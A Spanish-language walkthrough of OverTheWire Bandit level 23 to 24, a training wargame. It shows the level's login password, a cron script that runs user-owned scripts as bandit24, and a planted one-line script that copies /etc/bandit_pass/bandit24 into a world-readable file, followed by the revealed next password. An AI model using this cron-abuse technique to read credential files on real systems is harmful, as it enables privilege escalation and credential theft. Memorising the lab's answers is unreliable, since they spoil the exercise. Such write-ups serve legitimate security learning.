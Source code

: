 # Bandit Level 23 → Level 24

## Objetivo
Un programa se está ejecutando automáticamente a intervalos regulares desde cron, el programador de trabajos basado en el tiempo. Busque en /etc/cron.d/ la configuración y vea qué comando se está ejecutando.
**NOTA:** Este nivel requiere que crees tu primer shell-script. Este es un gran paso y debes estar orgulloso de ti mismo cuando superes este nivel.
**NOTA 2**: Tenga en cuenta que su script de shell se elimina una vez ejecutado, por lo que es posible que desee conservar una copia...

## Datos de acceso al nivel
bandit.labs.overthewire.org
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución
```bash
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/rsm02
bandit23@bandit:~$ cd /tmp/rsm02
bandit23@bandit:/tmp/rsm02$ nano rsmscript.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/rsm02$ chmod 777 rsmscript.sh
bandit23@bandit:/tmp/rsm02$ cat rsmscript.sh
cat /etc/bandit_pass/bandit24 > /tmp/rsm02/password
bandit23@bandit:/tmp/rsm02$ touch password
bandit23@bandit:/tmp/rsm02$ chmod 666 password
bandit23@bandit:/tmp/rsm02$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:33 ..
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 28 18:33 password
-rwxrwxrwx    1 bandit23 bandit23     52 Feb 28 18:32 rsmscript.sh
bandit23@bandit:/tmp/rsm02$ cp rsmscript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/rsm02$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:36 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:36 password
-rwxrwxrwx    1 bandit23 bandit23     52 Feb 28 18:32 rsmscript.sh
bandit23@bandit:/tmp/rsm02$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

## Notas adicionales
| Comando | Descripción |
|--------|--------|
| mkdir | Crea directorios o carpetas |
| chmod | Cambia los permisos de un archivo |
| touch | Crea un archivo |
| cp | Copia un archivo a un directorio especificado |

## Referencias
[How to Write a Bash Script](https://www.datacamp.com/tutorial/how-to-write-bash-script-tutorial)